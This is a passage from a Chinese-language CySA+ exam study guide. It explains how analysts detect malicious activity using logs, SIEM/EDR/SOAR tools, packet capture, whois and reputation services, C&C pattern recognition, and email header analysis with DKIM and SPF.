- `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run`
- `HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnce`
- `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce`

### 社会工程学

`Social engineering`（社会工程学），或利用安全中的人性因素，针对个人来收集信息。这可能通过电话、电子邮件、社交媒体或面对面进行。通常，社会工程学针对特定的访问或帐户，但也可能更具通用性。攻击者经常将人类视为安全架构和设计中的潜在弱点。然而，识别社会工程学需要与我们迄为止讨论的各种工具和流程不同的技术。

社会工程学的检测通常需要：

- 意识培训，以确保员工能够能够检测并报告可能是社会工程学尝试的嫌疑行为
- 及时时的报告流程，并鼓励员工报告社会工程学尝试和成功案例，且不具有惩罚性
- 分析和响应能力，以确定社会工程学尝试对哪些方面产生了何种影响（如果有的话），以及影响的范围

考试大纲还特别列出了一种通常与钓鱼相关、但可能用于其他社会工程学攻击的技术。`Obfuscated links`（混淆链接），即刻意误导的链接，是欺骗用户点击恶意网站的常用工具。

## 调查服务和应用程序相关问题

调查服务和应用程序问题需要关于正在运行的服务和应用程序的信息、它们的预期行为，以及服务的自报告和系统报告信息。在许多组织中，主动的服务监控也被用于判断服务是否正常工作。

应用程序和服务的相关事件，如错误行为、意外日志消息或错误、新用户或进程以及文件更改，都是服务可能被破坏的迹象。幸运的是，调查这些问题的许多工具已经内置在 Windows 和 Linux 系统中。

### 应用程序和服务监控

监控应用程序和服务对组织的运营至关重要，还可以通过显示何时发生了异常行为以及应用程序和服务何时被滥用，来提供重要的安全洞察。

应用程序和服务监控可以分为以下几个常见的监控领域：

- **运行/停止**：服务是否正在运行？
- **性能**：它的响应速度是否快且符合预期？
- **事务日志**：记录有关服务功能的信息，例如用户采取了哪些操作或执行了哪些操作。
- **应用程序或服务日志**：关于服务功能或状态的日志。

这些领域中的每一个都为了解应用程序或服务的状态、性能和行为提供了部分关键线索。在调查过程中，你通常需要识别出与服务典型记录内容不符的行为。

## 应用程序日志

`Application logs`（应用程序日志）可以提供丰富的信息，但它们也要求你了解应用程序的日志格式以及这些日志包含的内容。虽然许多 Linux 日志存储在`/var/log`中，但 Windows 应用程序日志可能会由 Windows 日志基础设施收集，或者存储在应用程序特定的目录或文件中。

安全专业人员的工作部分之一是确保在事件发生之前设置了适当的日志记录，以便日志可用，并防止其被攻击者修改或删除。将关键的应用程序日志发送到中央日志收集和/或分析服务是该策略的常见组成。

## 引入新账户

攻击者经常尝试在应用程序中创建账户，作为其获取并保留访问权限努力的一部分。云托管和本地部署应用程序都需要日志记录和监控，以确保账户创建操作被记录，并且意外的账户创建会触发告报和报告。

对于拥有大量新账户的组织或服务，这可能是一个特殊的挑战。这意味着关注特权账户是一个很好的起点。对批量账户创建、定时创建的账户或从异常位置创建的账户进行额外监控，也是检测和识别潜在恶意账户创建的常用技术。

## 应用程序和服务异常检测

服务和应用程序的异常活动相对常见。多种非安全相关问题可能导致此类问题：

- 应用程序或服务特定的错误，包括身份验证错误、服务依赖问题和权限问题
- 应用程序或服务未能在启动时启动，可能是由于特定错误，或者对于服务是因为服务被禁用
- 服务故障，通常由更新、补丁或其他更改引起

服务和应用程序故障的排除通常从尝试启动或重启服务开始。如果没有成功，通过检查服务的日志消息或错误消息可以提供解决问题所需的信息。

由于安全问题导致的服务和应用程序异常可以使用相同的监控技术进行检测；然而，额外的工具对于确保服务及其组成文件和应用程序未被破坏将非常有用。除了常用的服务和日志监控工具，你可能还会选择部署额外的保护措施：

- 反恶意软件、杀病毒软件和 EDR 工具
- 文件完整性检查工具
- 允许列表工具

### Windows 服务状态

可以通过服务管理工具（`services.msc`）或使用命令行工具如`sc`（服务控制器应用程序）来检查 Windows 服务状态。`sc`接受命令行标记，用于设置服务的启动类型、指定启动失败时应设置的错误级别，并提供服务的详细信息。PowerShell 还提供了如`Start-Service`等交互命令，用于与本地和远程 Windows 主机上的服务交互。

### Linux 服务状态

在大多数系统中，可以使用`service`命令检查 Linux 服务。`service [servicename] status`将返回许多并非所有 Linux 服务的状态。你可以尝试运行命令来列出所有服务的状态：

```
service --status-all
```

使用`init.d`的 Linux 系统可以通过运行类似命令进行检查：

```
/etc/init.d/servicename status
```

Linux 服务的重启过程取决于发行版。请检查你的发行版以验证它期望如何重启服务。

## 应用程序错误监控

大多数 Windows 应用程序记录到 Windows 应用程序日志（尽管某些程序也维护自己的专用日志文件）。要检查应用程序错误，你可以通过 Windows 事件查看器查看应用程序日志。你还可以使用 SCOM 将这些日志集中化。

许多 Linux 应用程序在`/var/log`目录或特定的应用程序日志位置提供有用细节。使用`tail`命令，你可以在测试应用程序时监控这些日志。与 Windows 类似，某些 Linux 应用程序将其文件存储在特定的应用程序位置，因此你可能需要检查应用程序的文档以跟踪应用程序提供的所有数据。

# 应用程序行为分析

被破解或被成功攻击的应用程序可能会突然表现出非典型的行为：可能会发生出站通信、应用程序可能会对数据库或其他资源发出非典型行为请求，或者可能会创建新的文件或用户账户。理解典型的应用程序行为需要结合以下内容：

- 应用程序正常行为的文档，例如它应该连接到哪些系统以及应如何建立这些连接
- 日志记录，提供正常操作的视图
- 使用反恶意软件工具和其他安全监控系统进行启发式（行为）分析，以标记行为偏离常态的情况

## 使用工具和技术确定恶意活动

CySA+ 考试大纲重点关注你需要在考试中熟悉的一小部分工具。它们包括数据包捕获、日志分析和关联、端点安全、DNS 和 IP 信誉、文件分析以及沙箱工具。对于这些许多工具，你至少需要理解工具的概念以及如何应用。对于其他工具，你可能需要对工具或其输出有基本的了解。在查看这些工具时，你应该考虑你对它们的熟悉程度和经验，以确定是否需要进一步复习。

### 日志、日志分析与关联

组织在监控和记录各种系统和服务后可能会产生大量的安全数据。安全分析师经常被要求分析这些数据以识别安全问题并响应安全事件。

这意味着分析师需要知道如何快速评估事件对组织的影响，并能够判断事件是局部的还是具有更广泛范围。分析事件的影响需要以下内容：

- 了解其他事件是否与初始事件相关
- 了解哪些系统、用户、服务或其他资产涉及或受到影响
- 对事件涉及任何数据资产进行分类
- 可能影响组织对事件决策的其他信息

分析数据还需要处理数据的能力，无论是使用安全信息和事件管理（SIEM）工具、通过像 Splunk 或 ELK（Elasticsearch、Logstash 和 Kibana）堆栈实现的日志和聚合技术，还是使用更手动的方法。

除了评估组织影响与局部影响之外，分析师还必须确定事件或事故的即时影响与总影响。单次事件可能导致极小或没有损害，但它也可能是更大范围入侵或针对组织的大规模攻击的迹象。

了解整个组织正在发生的情况可能涉及`趋势分析`技术，这有助于分析师看到事件偏离基准或正常水平的变化。它们还可以帮助分析师将事件与行业标准或历史模式进行比较。

### 日志

组织基础设施中的应用程序、服务、系统和许多其他资产将生成日志，或者在配置适当的情况下具备生成日志。日志和日志源的巨大量可能会迅速让人无从下手，即使是小型组织，从日志发现发现意义的数据也可能是不可能的。

安全分析师需要了解系统中默认存在哪些日志、如何访问它们、如何查找这些日志内容的信息以及如何解释这些内容。此外，你需要了解组织如何使用日志、这些日志是否妥妥保护，以及日志收集和分析基础设施中存在哪些漏洞。

在阅读日志时，你还应该考虑组织如何在本地和云端实现日志及日志基础设施的集中。日志集中并使用处理、分析和报告海量日志的工具是现代安全架构中的关键元素。

### 事件日志

可以使用开始菜单中的`事件查看器`在工作站上直接查看 Windows 日志。默认情况下，Windows 包含应用程序、安全、安装和系统日志，对分析师都很有用。在图 3.9 中，你可以看到一个显示安装程序事件的应用程序日志示例。跟踪特定包是在何时安装的以及由谁安装的，是许多恶意软件事件调查以及取证或事件响应过程的共同部分。



**图 3.9** Windows 事件查看器项目

`事件查看器`也适用于 Active Directory 日志，尽管你会很快发现即使中等规模的域生成的日志也可能比你想在`事件查看器`中直接查看的多。将日志导出到专门的日志聚合和分析系统中是一个很有吸引力的选项。

### Syslog

Linux 维护系统状态、事件和许多其他细节的信息，通常位于`/var/log`目录。额外的日志可能位于特定应用程序目录中，或者根据特定配置或应用程序及服务的默认位于系统的其他位置。

图 3.10 显示了 Ubuntu 服务器上的`auth.log`文件，其中包含各种`sudo`事件。搜索包含使用管理员权限的已知事件是事件调查的常见部分。



**图 3.10** `auth.log`中带有`sudo`事件的 Linux syslog 项目

### 安全设备日志

安全设备捕获有关安全事件、系统事件和其他对安全分析师有用的其他信息。尽管大多数设备都能发送兼容 syslog 的消息，但这些消息的内容及其格式方式在不同供应商之间可能存在显著差异。

无论你查看的是什么种类型的日志，都要记住你正在寻找的事件类型，以及它中哪些与你正在搜索的事件或条目匹配的标识符。在许多情况下，你应该根据初始搜索发现的结果查找相关的条目。例如，如果你正在寻找到 IP 地址为`10.1.10.4`主机的拦截流量，你可能还想查看该主机的其他条目，并可能选择扩大搜索以搜索`10.1.10.4`的所有条目。


同样，如果你正在查看拦截的流量并发现 `192.168.1.172` 主机正在向 `10.1.10.4` 发送流量，并且你看到不同端口上有数百次尝试且全部被拦截，你可能会搜索日志查看 `192.168.1.172` 是否对你的整个网络进行端口扫描。

## 防火墙日志

虽然有很多类型的防火墙日志，但大多数某些相似之处。它们通常识别源和目的 IP 地址、端口和协议，以及对流量采取的操作。它们可能还包含数据，例如匹配的角色、阻止相关的特定威胁标识符、流量进入或退出防火墙的接口或端口，以及发送流量的详细信息。

在图 3.11 中，你可以看到 Ubuntu UFW 防火墙的日志条目示例。注意条目显示了源和目的主机，并且正在访问的服务位于端口 `22` 上。在这种情况下，防火墙正在拦截对 OpenSSH 服务的访问，客户端一直在重试访问直到失败。



**图 3.11** UFW 拦截连接防火墙日志条目示例

## WAF 日志

Web 应用防火墙（WAF）是一种特殊的防火墙，在应用层运行，以过滤针对 Web 应用程序的攻击。许多 WAF 系统具有默认规则集，用于查找匹配 [OWASP Top Ten](http://owasp.org/www-project-top-ten)或其他常见应用程序风险的攻击，允许管理员快速启用规则集。

图 3.12 显示了一个针对 OWASP Top 10 的 ModSecurity 条目示例，在请求参数中发现了对 Bash shell（`/bin/bash`）的请求。此类日志条目可以根据日志内容识别活动攻击。



**图 3.12**

## 代理日志

与防火墙日志类似，代理日志可以提供有关连接和流量的有用信息。代理通常用于集中访问流量或过滤流量。因此，代理日志将包含源和目的 IP 地址、源和目的端口、请求的资源、日期和时间，通常还有内容类型和 HTTP 引用页以及关于内容的详细信息。

在分析代理日志时，你应该寻找如下数据：

- 目标主机 IP、主机名以及请求的内容。
- 请求的内容量。这可能指示入侵或匹配已知的恶意包。
- HTTP 请求方法，对于 `GET` 请求可以提供查询字符串的详细信息（`POST` 请求将此内容放在消息正文中，需要读取完整有效负载，这更为复杂）。
- 异常的 User Agent 和协议版本，这些可能对于识别应用程序、恶意软件或其他目标有用。

`IDS` 和 `IPS` 系统依赖规则来识别不受欢迎的流量。这意味着当 `IDS` 和 `IPS` 触发规则时，日志中将包含有关已激活规则的信息，以及有关被捕获并分析以触发该规则的流量信息。由于 `IDS` 和 `IPS` 系统通常分析数据包内容，并查看跨多个数据包或整个会话的流量以执行其功能，通常可以获得更多关于应用层发生的数据。例如，如果你正在跟踪一个使用基于互联网中继聊天（IRC）的 C&C 恶意软件，你可以搜索包含特定通道名称或所用昵称的规则命中。

与我们讨论过的其他日志类型类似，找到第一个感兴趣的日志条目通常会引导你发现其他有趣的日志。在审查日志的过程中，对日志条目进行注释是有帮助的，记录下你需要进一步追踪的细节，以及根据你已掌握的知识后续还应该进行哪些其他搜索。

# 安全设备与工具

安全设备和工具通常用于自动化并改进组织检测、识别和响应潜在恶意活动的能力。虽然该领域有很多解决方案，但 `CySA+` 考试大纲重点关注了三个你在考试中需要了解的工具。

## SIEM

`安全信息和事件管理 (SIEM)` 工具利用集中式日志记录和数据收集，结合报告和分析能力来识别潜在的安全问题。这些信息与威胁信息、`IOCs` 数据和其他信息相结合，以帮助识别问题。它们利用规则和过滤功能进行分析，允许组织处理由现代基础设施、系统和应用程序产生的海安全信息。

`SIEM` 工具还提供事件管理和响应能力，允许进行跟踪、管理和监督。

## EDR

`端点检测与响应 (EDR)` 工具部署在端点系统中，使用代理来监控并检测潜在的安全问题、攻击和入侵。端点代理向中央控制台或系统报告，提供可见性和管理能力。

`EDRs` 侧重于使用威胁模式、妥陷指标以及行为分析来判断问题是否正在发生或已经发生。它们可以自动做出响应，包括中和威胁、遏制威胁或告警安全从业人员或系统管理员。除了这些功能外，它们通常包含对取证分析和事件响应有帮助的工具。

## SOAR

`编排、自动化和响应 (SOAR)` 工具用于集成安全工具和系统。它们依赖 `APIs`（应用程序编程接口）或其他集成方法从防火墙、漏洞扫描器、反病毒工具、`IDS` 和 `IPS` 设备、`EDR` 和 `SIEM` 系统以及组织拥有的任何其他安全数据源收集数据。

`SOAR` 平台提供的数据告警和报告集中化被用于驱动安全自动化任务，例如触发响应、跨系统的关联和告警，以及提供分析能力。`SOARs` 的一个关键要素是使用剧本（playbooks），即在发生特定事件组或触发触发器时使用的自动化动作集。

`SOAR` 平台还关注响应，内置了事件管理、监控和报告能力。从多个数据源的事件数据中构建可操作的威胁情报是 `SOAR` 用户的常见活动。

# 数据包捕获

包捕获工具允许你查看跨网络连接发送的流量。查看发送和接收的流量可以对网络上发生的情况提供深刻洞察，包括识别攻击、恶意活动以及识别连接问题等优点。`CySA+` 考试大纲重点关注两个特定的且常用的包捕获工具。

## Wireshark

`Wireshark` 是一款图形化的包捕获和检查工具，适用于 Linux、Windows 和 macOS。

图 3.13 显示了使用 `Wireshark` 可以获得的一些深度详细信息。在这种情况下，你可以确定浏览网站的设备的用户代理、浏览了什么网站以及内容的细节。请注意主机是 `cdn.iphonehacks.com`，且所使用的设备被识别为运行 `iOS 13.2.2` 的 iPad。

通过数据包和协议分析识别网络上的恶意软件，依赖于对流量应该是什么样以及哪些行为和内容是异常的深厚知识。如果你知道自己在寻找什么，或者正常和异常流量长什么样，数据包长度、目标 IP 地址、端口和协议都可以提供有用信息。当由于加密无法看到数据包内容时，寻找恶意流量可能更具挑战性。在数据包被加密的情况下，你可能需要依靠基于行为的分析，观察指示恶意软件的流量模式（例如访问已知的网站、在不常用的端口上发送意外流量或其他异常行为）。

## Tcpdump

`Tcpdump` 是一种命令行包捕获工具，通常在 Linux 系统上可用，但也适用于其他操作系统。由于它内置在许多 Linux 发行版中，安全专业人员通常可以在 `Wireshark` 无法立即可用或不方便使用时利用它。



图 3.13 带有数据包内容信息的 Wireshark 包分析

一个简单的 `tcpdump` 命令用于捕获端口 80 上的流量以查看 HTTP 数据，且不限制捕获的数据量并带有详细输出，可以写为：

```
tcpdump -i eth0 -s0 -v port 80
```

如果你不熟悉 `tcpdump`，可以在 `https://hackertarget.com/tcpdump-examples` 和 `https://danielmiessler.com/study/tcpdump` 等许多网站找到用法。

# DNS 和 Whois 信誉服务

组织经常依赖信誉服务来识别潜在的恶意域名和 IP 地址。虽然 `Whois` 数据很有帮助，但由于所需和可用信息的规模，订阅服务或从自动馈获取数据更为常见。

你仍然需要知道如何使用 `Whois` 信息。需要注意的是，虽然 `Whois` 是一个通用术语，但也有名为 `Whois` 的网站地址为 `http://whois.com`。该术语更通用法是指通过 `Whois` 服务器检查 IP 地址或主机名。`Whois` 默认可以在 Linux 命令行中运行，但在大多数 Windows 机器需要手动添加。

当你运行 `whois` 时，它将尝试解析 IP 地址或域名并提供有关其的信息，包括注册和联系信息。以下是 `Wiley.com` 的 `whois` 搜索示例。请注意代码已省略，未包含此示例中的所有可用信息：

```
Domain Name: wiley.com
Registry Domain ID: 936038_DOMAIN_COM-VRSN
Registrar WHOIS Server: whois.corporatedomains.com
Registrar URL: www.cscprotectsbrands.com
Updated Date: 2021-08-30T12:27:21Z
Creation Date: 1994-10-12T00:00:00Z
Registrar Registration Expiration Date: 2023-10-11T04:00:00Z
Registrar: CSC CORPORATE DOMAINS, INC.
Sponsoring Registrar IANA ID: 299
Registrar Abuse Contact Email: domainabuse@cscglobal.com
Registrar Abuse Contact Phone: +1.8887802723
Domain Status: clientTransferProhibited http://www.icann.org/epp#clientTransferProhibited
Registry Registrant ID: 
Registrant Name: Domain Administrator
Registrant Organization: John Wiley & Sons, Inc
Registrant Street: 111 River Street
Registrant City: Hoboken
Registrant State/Province: NJ
Registrant Postal Code: 07030
Registrant Country: US
Registrant Phone: +1.3175723355
Registrant Phone Ext: 
Registrant Fax: +1.3175724355
Registrant Fax Ext: 
Registrant Email: domains@wiley.com
Registry Admin ID: 
Admin Name: Domain Administrator
Admin Organization: John Wiley & Sons, Inc
Admin Street: 111 River Street
Admin City: Hoboken
Admin State/Province: NJ
Admin Postal Code: 07030
Admin Country: US
Admin Phone: +1.3175723355
Admin Phone Ext: 
Admin Fax: +1.3175724355
Admin Fax Ext: 
Admin Email: domains@wiley.com
```

诸像 `AbuseIPDB` 这样的公共工具允许你搜索 IP 地址、域名或网络，以查看它们是否被举报过滥用。虽然 `AbuseIPDB` 专门包含在 CySA+ 考试大纲中，但类似的商业和免费服务广泛可用，也存在于邮件滥用跟踪。图 3.14 显示了针对近期有滥用活动的 IP 地址的 `AbuseIPDB` 报告示例。



图 3.14 IP 地址的 AbuseIPDB 输出

安全管理员经常必须考虑，如果他们负责的系统被破解，应该如何从像 `AbuseIPDB` 这样的列表中移除。虽然每个网站的情况不同，但几乎所有网站都有请求移除的流程。

## 常见技术

为了考试，你将熟悉许多技术。首先是`模式识别`——即能够看到常见的攻击、利用和破解模式，并识别出其本质的能力。这通常由人工智能 (AI) 或机器学习 (ML) 系统使用，它们会寻找与破解或恶意活动相关的已知模式。安全从业人员也会寻找可能指示破解或攻击的模式。

`模式识别`技术最常见的关注点之一是识别命令与控制（`C&C`）流量，或信标（beaconing）。命令与控制流量的识别依赖于如下模式：

- 指向已知恶意 IP 地址或网络的流量
- 在非预期端口上的流量
- 通过通常不使用的协议的流量，或超出该协议正常流量范围的流量
- 大量数据传输
- 与通常不会发送流量的进程关联的流量（如 Windows 系统上的 `notepad.exe`）
- 在与正常业务无关的时间段发送的流量
- 其他不符合典型使用情况或模式的意外行为

尽管 CySA+ 考试大纲侧重于 `C&C` 和 `模式识别`，但高级的 AI 和 ML 技术使用了广泛的入侵指标 (IOC) 和基准技术，来帮助识别潜在的非预期或恶意活动，并提供自动化和规模化的优势。

## 邮件的保护与分析

邮件仍然是攻击的频繁媒介，范围从钓鱼攻击到通过邮件附件或其他技术分发恶意软件。安全分析师需要了解邮件分析的基础知识，包括如何分析邮件信头、如何识别常见的攻击技术，以及旨在防止邮件攻击的最常见安全技术。

### 邮件分析

大多数组织使用自动化邮件分析作为防御恶意和垃圾邮件的第一道防线。自动化工具寻找诸如已知恶意或垃圾邮件发送者之类的指标，通常使用利用全球信息构建的黑名单。它们还会扫描每封邮件以寻找诸如恶意软件或其他不良文件的恶意载荷。

同样的工具通常还会执行头部分析和消息内容分析。信头分析查看邮件信头的内容。垃圾邮件信头的示例在图 3.15 所示。注意前两行显示 `SPF` 是中性的。再往下看，我们看到提到了域名 `notes.langdale.com`，以及一个显示为 `efianalytics.com` 的来自（received from）头部项。大量的回复列表很奇怪，随后在邮件中发现的消息 ID 也是如此。


图 14 IP 地址的 AbuseIPDB 输出

这封邮件是一次钓鱼尝试；然而，更老练的攻击者在正文和信头方面都有手段。合法账户是攻击者的热门目标，因为它们可以用来绕过许多过滤器。

如果你不熟悉头部的内容，可以在 `http://mediatem.net/community/dv/20463950/understanding-an-email-header` 或 `https://blog.mailfence.com/email-header` 等网站进行查看。邮件分析工具也很有用，许多网站提供了这些工具，如 `www.whatismyip.com/email-header-analyzer` 和 `https://dnschecker.org/email-header`。在 CySA+ 中你无法使用这些自动化工具，因此请确保你学会如何阅读信头！

分析师需要知道，转发的邮件将不包含原始信头。`转发`邮件会将邮件内容放入一个新的“信封”中，从而删除你可能需要的信头信息。大多数现代邮件客户端允许用户在需要时查看信头，但这通常是一个手动过程，并不是大多数用户知道如何做的。

除了转发邮件时可能会丢失的信息外，自动邮件转发也是组织需要解决的安全问题。自动转发有时会被成功破解账户的攻击者利用，将该账户接收的所有邮件发送到他们选择的目的地。即使账户没有被破解，转发也会导致组织不希望离开安全边界的数据进入外部。

### 邮件元素

除了信头之外，在执行邮件分析时，许多元素都可能引起关注。第一个也是最常见的审查审查元素是嵌入链接。`嵌入链接`通常作为钓鱼诈骗的一部分，因为许多用户在点击之前不会检查链接的去向。

邮件签名块可以帮助识别钓鱼攻击，尽管更老练的攻击者会直接克隆合法签名。由于邮件签名通常包含图像和嵌入链接，它们可能还包含其他危险元素，告诉攻击者邮件是否被打开，或者本身就是攻击的一部分。

数字签名依赖于数字证书和公钥加密，可以帮助证明声称的实际发送者是信息的真实发送者，并且邮件内容未被更改。当对电子邮件进行数字签名时，会创建一个哈希值；然后用签名者的私钥对该哈希值进行加密以创建数字签名。发送者的数字证书和签名会被附在电子邮件中。收件者可以针对收到的邮件对哈希值进行验证，还可以使用发送者的公钥解密签名，验证其是否匹配。许多电子邮件服务提供对数字签名的支持以及如 S/MIME（安全/多用途互联网邮件扩展）等工具，但只有极少数组织广泛使用这一功能。

# 电子邮件攻击

最常见的电子邮件攻击形式是钓鱼、冒充和包含恶意附件。钓鱼攻击侧重于诱导毫无防备的用户点击某个网站，并在该网站提供其用户名和密码，或其他侧重于通过欺骗获取凭据或其他信息的技巧。

冒充攻击日益常见，它们通常包括一封伪装成来自信任同事或经理的电子邮件。收件者通常被要求执行操作，如购买礼品卡、更改银行信息或其他执行有利于攻击者的行为。

恶意软件也通过电子邮件传播，可以是作为附件，也可以通过可点击的下载链接。尽管反恶意软件软件可以有所帮助，但攻击者和防御者之间存在着持续的战斗，新的技术和工具不断出现，帮助攻击者让恶意软件绕过组织建立的防御措施。

# 电子邮件安全选项

除了头部分析外，还可以使用其他技术来为电子邮件提供更大的保护。这些包括域名密钥识别邮件（DKIM）、发送者策略框架（SPF）以及基于域的消息身份验证、报告和一致性（DMARC）。

`DKIM` 允许组织向消息中添加内容，以识别其来自其的域名。DKIM 对消息正文和头部元素都进行签名，有助于确保消息确实来自其所声称的组织。它添加了 `DKIM-Signature` 头部，该头部可以与存储在启用 DKIM 的组织的公共 DNS 条目中的公钥进行比对。

`SPF` 是一种电子邮件验证技术，允许组织发布其授权的电子邮件服务器列表。`SPF` 记录被添加到域名的 DNS 信息中，并指定哪些系统允许从该域名发送电子邮件。未列在 `SPF` 中的系统将被拒绝。


